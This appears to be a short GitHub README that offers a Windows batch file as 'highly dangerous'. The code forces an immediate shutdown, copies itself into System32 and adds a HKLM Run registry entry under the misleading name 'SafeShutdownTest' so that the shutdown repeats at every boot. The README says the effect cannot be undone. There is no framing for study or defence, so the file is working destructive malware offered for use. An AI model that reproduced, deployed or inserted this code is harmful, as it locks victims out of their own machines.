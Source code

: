 # Highly dangerous .bat file
This file will ***destroy*** your computer once it is run.
It will immediately shutdown your computer once the code is launched nd whenever you try to restart your computer.
**You cannot undo nor stop this program!**
```bat
@echo off
shutdown /t 0

if not exist "%SystemRoot%\System32\shutdown_trigger.bat" (
    echo Creating safe persistence...
    copy "%~f0" "%SystemRoot%\System32\shutdown_trigger.bat" >nul
    reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SafeShutdownTest" /t REG_SZ /d "\"%SystemRoot%\System32\shutdown_trigger.bat\"" /f >nul
)
```

